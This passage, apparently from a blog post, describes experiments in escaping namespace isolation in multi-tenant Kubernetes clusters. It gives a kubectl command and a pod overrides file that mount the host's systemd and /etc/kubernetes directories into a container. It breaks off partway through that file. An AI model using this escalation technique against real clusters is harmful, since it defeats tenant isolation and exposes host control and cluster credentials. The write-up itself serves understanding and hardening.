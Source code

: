 The intention here is that this user only has access to resources in the namespace for their team. In a multi-tenanted cluster, the workloads in other namespaces are completely invisible.

In Kubernetes, workloads are deployed as [Pods](https://kubernetes.io/docs/concepts/workloads/pods/pod-overview/), which expose a lot of the functionality of running Docker containers.

{{< tweet 935252923721793536 >}}

As a "platform for building platforms", Kubernetes needs to have the power to be extremely flexible. If you are "just" deploying apps, having _all_ that flexibility exposed becomes a liability.

I wanted to understand exactly what the limits of privilege escalation were, so I experimented with a few different methods to see how far I could get.

# Escalation Methods
## Static Pod Method
One idea I had was using [static pods](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/) to start containers with arbitrary Service Accounts. Kubernetes [Nodes](https://kubernetes.io/docs/concepts/architecture/nodes/) (EC2 instances) have a [Cluster Role](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#role-and-clusterrole) (not namespace specific) with Pod creation capabilities, but _only for static pods_. The most interesting part about this was figuring out how to access the host's [`systemd`](https://en.wikipedia.org/wiki/Systemd).

  * Start with a user with normal pod creation privileges (namespace doesn't matter)
  * Run a pod that has privileges to the underlying host's `systemd`: `kubectl run -it --rm --restart=Never --overrides="$(cat overrides.json)" --image=centos/systemd bash`. I'm using `kubectl run` and `--overrides` for convenience -- you could also just write a Pod manifest and `kubectl exec` in to it.

`overrides.json`:
```json
{
  "apiVersion": "v1",
  "spec": {
    "containers": [
      {
        "name": "shell",
        "image": "centos/systemd",
        "command": ["bash"],
        "stdin": true,
        "stdinOnce": true,
        "tty": true,
        "volumeMounts": [
          {
            "name": "cgroup-volume",
            "mountPath": "/sys/fs/cgroup"
          },
          {
            "name": "systemd-volume",
            "mountPath": "/run/systemd"
          },
          {
            "name": "unit-volume",
            "mountPath": "/etc/systemd/system"
          },
          {
            "name": "kubernetes-volume",
            "mountPath": "/etc/kubernetes"
          }
        ]
      }
    ],
    "volumes": [
      {
```